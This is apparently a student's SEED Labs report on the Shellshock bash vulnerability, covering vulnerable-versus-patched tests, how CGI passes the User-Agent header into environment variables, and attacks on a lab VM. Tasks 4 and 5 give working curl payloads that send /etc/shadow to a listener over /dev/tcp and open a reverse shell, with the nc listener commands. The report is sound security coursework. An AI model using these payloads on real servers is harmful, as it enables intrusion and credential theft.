







# Lab1 Report - Shellshock


## Task 1
> Please run this vulnerable version of Bash like the following and then design an experiment to verify whether this Bash is vulnerable to theShellshock attack or not. 
Try the same experiment on the patched version of bash (/bin/bash) and report your observations.

This script exploits the Shellshock vulnerability on the vulnerable bash.

```bash
#!/bin/bash_shellshock

foo='() { echo "Hello World!"; }; echo "shellshocked!";'

echo $foo   # Output the defined variable
export foo  # Export the created variable to a environment variable

/bin/bash_shellshocked  # If shell is vulnerable, bash will run the miss-parsed variable command, in this case, 'echo "shellshocked"!'
```

This script runs on the patched bash version, therefore, the miss-parsed command doesn't run.

```bash
#!/bin/bash

foo='() { echo "Hello World!"; }; echo "shellshocked!";'

echo $foo   # Output the defined variable
export foo  # Export the created variable to a environment variable

/bin/bash   # If shell is vulnerable, bash will run the miss-parsed variable command, in this case, 'echo "shellshocked"!'
```
Result:  


## Task 3
>  In your report, please explain how the data from a remote user can get into those environment variables.

Common gateway interface (CGI) is utilized by web servers to run executable programs that dynamically generate web pages.
Many CGI programs use shell scripts, if bash is used, they may be subject to the Shellshock attack.

Data from the client side gets to the CGI program through the User-Agent parameter. That parameter then is exported to a environment variable.  
This parameter can be observed using the flag -v when executing a curl command.
```bash
curl -v http://localhost/cgi-bin/myprog.cgi
```


And by adding the line ```strings /proc/$$/environ```, the cgi program, when acessed, it outputs the environment variables of the process running the server. Thus it's possible to observe that the variable HTTP_USER_AGENT is set with the value sent by the curl command.


It's possible to specify the User-Agent variable with the flag -A:  
```bash
curl -A "test" -v http://localhost/cgi-bin/myprog.cgi
```

Therefore, by running this command, the results are the following:



This is how data from a remote user without special privileges can get into a server's environment variables.

##  Task 4
>  In this task, you should demonstrate the following:  
-Using the Shellshock attack to steal the content of a secret file from the server.  
-Answer the following question: will you be able to steal the content of the shadow file ```/etc/shadow``` ? Why or why not?

It's not possible to observe the shellshock attack output without redirecting the stdout it is tied to the apache server process shell.

```bash
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" -v http://localhost/cgi-bin/myprog.cgi
```

This shows no output on the attacker shell.

A reverse shell is an attack that consists in redirecting a victim's shell standard IO to a attacker's bash session via network. This consists of redirecting the standard output to a TCP socket and redirecting the receiving TCP socket data to the standard input of the victim's bash.

I've setup a VM running Ubuntu 16.04 SEED Labs version with a Linux host. The virtual machine can communicate with the host machine using the internal network addresses, used to redirect the data. On the attacker PC, the following command is running:
```bash
nc -l 9090 -v
```
This command outputs the data received from the TCP port 9090.

This is the command used to get the content of ```/etc/shadow``` and redirect it to the TCP connection.
```bash
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow > /dev/tcp/192.168.122.1/9090 0<&1 2>&1" -v http://localhost/cgi-bin/myprog.cgi
```

The command fetches the content of the ```/etc/shadow``` file and redirects the output to the TCP socket 9090 and the network address 192.168.122.1 that is the address where the attacker computer is located (in this case, my host machine).

However, because the apache server process has no root privileges, the output of this command yiels a "Permission denied".  


## Task 5
> In this task, you need to demonstrate how to launch a reverse shell via the Shellshock vulnerability in a CGI program.  Please show how you do it.  In your report, please also explain how you set up the reverse shell, and why it works.  Basically, you need to use your own words to explain how reverse shell works in your Shellshock attack.

To launch the reverse shell command, a TCP connection must be open on the attacker's computer to receive the incoming shell stdin and stdout. To do this, we use the command previously used:
```bash
nc -l 9090 -v
```

And to execute the attack, we run the following command on the victim's computer, in this case, a curl command on the virtual machine:
```bash
curl -A "() { echo hello; }; echo Content_type: text/plain; echo; /bin/bash -i > /dev/tcp/192.168.122.1/9090 0<&1 2>&1" -v http://localhost/cgi-bin/myprog.cgi
```

This command launches an interactive shell and redirect the output of the shell (stdout and stderr) and the shell input (stdin) to the stdout that is already redirected to the TCP connection, so the input of that shell will be from the TCP connection.

Output of the attacker computer:  


Now the attacker computer has access to a shell of the victim's computer or server.
Still has no root privileges, so the options fo the attack are limited.

## Task 6
> Now, let us use a Bash program that has already been patched.  The program ```/bin/bash``` is a patched version.  Please replace the first line of your CGI programs with this program.  Redo Tasks 3 and 5 and describe your observations.

### Task 3
The results observed are the same regarding setting the environment variable with a remote user's data.

### Task 5
Using the patched shell, the previous attack has no output. This is because the miss-parsed code on the environment variable is no longer being executed, therefore, the attack is neutralized.

